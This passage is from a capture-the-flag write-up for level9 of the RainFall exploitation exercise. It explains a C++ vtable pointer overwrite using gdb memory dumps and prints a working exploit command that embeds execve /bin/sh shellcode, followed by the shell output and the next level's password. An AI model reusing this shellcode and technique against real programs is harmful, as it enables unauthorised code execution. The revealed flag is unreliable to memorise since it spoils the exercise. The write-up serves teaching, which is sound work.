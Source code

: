 ```
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) x 0x804a078
0x804a078:	0x08048848
(gdb) x 0x08048848
0x8048848 <_ZTV1N+8>:	0x0804873a
```

![Diagram of dereferenced addresses](./resources/level9_diagram2.png)

The relevant addresses are `0x0804a078`, `0x08048848` and `0x0804873a`. Among all of them, we only have control over the `0x08048848` address, which is the returned value from the call to the second `new` operator.

With all these information in mind, our goal in order to complete this level is to pass as `argv[1]` a total of 112 bytes (`0x0804a078` - `0x0804a00c` = `0x6c` (108) + 4 bytes for the overwritten address) containing:
- a shellcode to spawn a shell from a `system()` call
- the address to the start of the copied buffer which points to our shellcode, and is gonna be called by `main()` after dereferencing it
- a payload of 79 characters
- the address of our shellcode incremented by 25 (the length of the shellcode) which is gonna be the address pointed by the second `[eax]`

![Diagram of dereferenced addresses with our input](./resources/level9_diagram3.png)

```bash
level9@RainFall:~$ ./level9 $(python -c "print('\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80' + '\x0c\xa0\x04\x08' + 'A' * 79 + '\x25\xa0\x04\x08')") $(python -c "print('test')")
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

## Resources

- [Name mangling](https://en.wikipedia.org/wiki/Name_mangling)
